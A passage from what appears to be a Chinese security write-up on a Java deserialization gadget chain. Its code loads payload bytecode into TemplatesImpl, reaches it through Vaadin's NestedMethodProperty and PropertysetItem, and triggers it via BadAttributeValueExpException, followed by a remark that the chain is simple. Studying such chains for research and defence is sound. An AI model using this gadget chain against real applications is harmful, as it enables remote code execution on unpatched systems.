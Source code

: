 ```bash
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(templates, "outputProperties");
        pItem.addItemProperty("outputProperties", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

//        serialize(exception);
unserialize("ser.bin");

    }
}
```

[![](assets/1709282823-e2c27350f2338d105735f2dd74c411af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162559-2aec2a7a-d6dc-1.png)

整个链代码量非常少，其实还是很简单的自己动手跟下即可非常容易理解

# CTFer
